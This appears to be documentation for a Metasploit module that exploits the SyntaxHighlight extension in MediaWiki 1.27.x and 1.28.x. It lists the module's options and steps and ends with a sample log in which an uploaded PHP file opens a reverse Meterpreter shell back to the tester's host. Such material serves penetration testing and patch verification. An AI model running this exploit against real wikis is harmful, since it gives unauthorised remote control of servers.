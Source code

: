 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x. A fix for this issue is included in MediaWiki version 1.28.2 and version 1.27.3.

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST [ip target site]`
  3. `set TARGETURI [MediaWiki path]`
  4. `set UPLOADPATH [writable path in web root]`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

  **TARGETURI**

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

  **UPLOADPATH**

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

  **CLEANUP**

  Set this to true (the default) to unlink the PHP file created by this exploit module. The cleanup code will only be called when the exploit is successful.

  **USERNAME**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

  **PASSWORD**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Sample Output
### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```

